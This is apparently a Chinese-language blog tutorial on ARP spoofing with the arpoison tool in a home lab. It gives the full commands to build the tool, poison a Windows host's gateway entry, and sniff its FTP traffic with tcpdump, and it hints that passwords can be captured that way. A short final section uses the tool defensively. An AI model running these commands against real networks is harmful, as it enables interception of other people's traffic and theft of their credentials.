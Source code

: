 ```yaml
---
title: arp攻防之arpoison
date: 2017-10-25 02:10:04
tags: arpoison
categories: "arpoison"
author: klion
---
```


<br>
0x01 依然是先开启本地的路由转发
```
# vi /etc/sysctl.conf
  net.ipv4.ip_forward=1
# sysctl -p
```

0x02 演示环境
```
centOS 6.8 x86_64	mac: 00:0C:29:C4:A0:95	ip : 192.168.3.4
win7cn 			mac: 00-0C-29-3B-BF-A8  ip : 192.168.3.8
win2008r2cn		mac: 00-0C-29-6C-55-D2  ip : 192.168.3.23
网关			mac: dc-ee-06-96-b7-b7	ip : 192.168.3.1
```

0x03 下载编译 arpoison
```
# yum install epel-release -y
# yum install libnet libnet-devel -y
# wget http://www.arpoison.net/arpoison-0.7.tar.gz
# tar xf arpoison-0.7.tar.gz
# cd arpoison-0.7
# gcc arpoison.c /usr/lib64/libnet.so -o arpoison
# cp arpoison /usr/bin/
# arpoison -h
```
<!-- more -->
0x04 arpoison 选项说明
```
-i 指定网卡接口
-d 指定目的IP
-s 指定源IP
-t 指定目的MAC
-r 指定源MAC
-w 指定发包速度
-n 指定发送次数
```

0x05 欺骗前的网关ip,mac对应关系
![](/img/arp_vefores.png)

0x06 进行实际的arp欺骗

相当于,它不停的请求3.8的mac,但是这个mac最终没有响应给3.1的真实mac而是响应给了嗅探者伪造的网关mac 00:0C:29:C4:A0:95
```
# arpoison -i 用于欺骗的网卡接口  -d 要欺骗的机器ip -s 网关ip  -t 目的mac[发广播] -r 源mac -w 发包速度
# arpoison -i eth2 -d 192.168.3.8 -s 192.168.3.1 -t ff:ff:ff:ff:ff:ff -r 00:0C:29:C4:A0:95 -w 0.1[每隔0.1秒发一次,实际上,你可以发的更快]
```
![](/img/arp-send.png)

0x07 回到 3.8 的机器上,查看欺骗后的网关ip,mac对应关系
![](/img/arp-send_res.png)

0x08 从下图中很明显能看出来,数据此时已经流过我们自己了,现在再想抓个密码啥的想必大家早已轻车熟路,这里就不细说了
```
# tcpdump -i eth0 -nn  -s 0 host 192.168.3.8 and tcp dst port 21
```
![](/img/arp-send_res_ftp.png)

0x09 如何利用arpoison阻止这种arp欺骗,其实相当于一个简易的arp防火墙

同样是不停的请求3.1的mac,然后再响应给3.8的真实mac,前提是你要确定当前机器事先没有被arp欺骗
```
# arpoison -i eth2 -d 192.168.3.1 -s 192.168.3.8 -t ff:ff:ff:ff:ff:ff -r 00:0C:29:3B:BF:A8 -w 0.1
```

小结:
&nbsp;&nbsp;&nbsp;&nbsp;工具比较轻量,虽然实用,但同时也太容易被发现了,祝,好运...
